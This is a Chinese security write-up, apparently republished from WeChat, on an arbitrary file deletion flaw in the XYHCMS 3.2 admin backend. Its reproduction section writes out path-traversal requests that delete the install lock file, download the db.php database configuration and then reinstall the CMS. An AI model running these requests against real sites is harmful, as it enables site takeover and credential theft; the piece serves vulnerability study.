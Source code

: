 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PxdHaSrMdjs3bAUKhacilA)

**高质量的安全文章，安全 offer 面试经验分享**

**尽在 # 掌控安全 EDU #**

**作者：掌控安全 - 柚子**

### 一. XYHCMS 3.2 后台任意文件删除  

#### 漏洞介绍

影响版本是 XYHCMS 3.2，漏洞的成因是没有对删除的文件没有做任何限制，导致可以直接把安装文件删除。

#### 漏洞分析

打开

/App/Manage/Controller/DatabaseController.class.php

文件。  

锁定 delSqlFiles() 函数。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpPWgExEMw7AVG62oQRleu29OqIdZFcM6QibGQDvIP82C8cQgdzHR0pOXLgxibPxibPibaXm8D6YYBXLg/640?wx_fmt=png)

#### 漏洞复现

1. 进入后台

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpPWgExEMw7AVG62oQRleu2iaibx5qPYcmuDcic1SEia1JLc5miaJWyQAu4W2fsOtXHYRicQ4bDM8Jx83uw/640?wx_fmt=png)

2. 删除安装锁文件

  
方法一：get 方式

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/delSq
```

方法二：post 方式

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/delSqlFiles /batchFlag/1

POST数据：key[]= ../../../install/install.lock
```

```
http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/xyhai.php?s=/Database/downFile/file/..\\..\\..\\App\\Common\\Conf\\db.php/type/zip
```

3. 接下来直接访问 

http://127.0.0.1/xyhcms_3.5_20171128/uploads_code/install 重装 cms

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcpPWgExEMw7AVG62oQRleu2vmuE6BoXNuNgVZZ7urzQcPpjGriabWjF0Zfd3k9n4vNBxlGLsr0EdXg/640?wx_fmt=png)
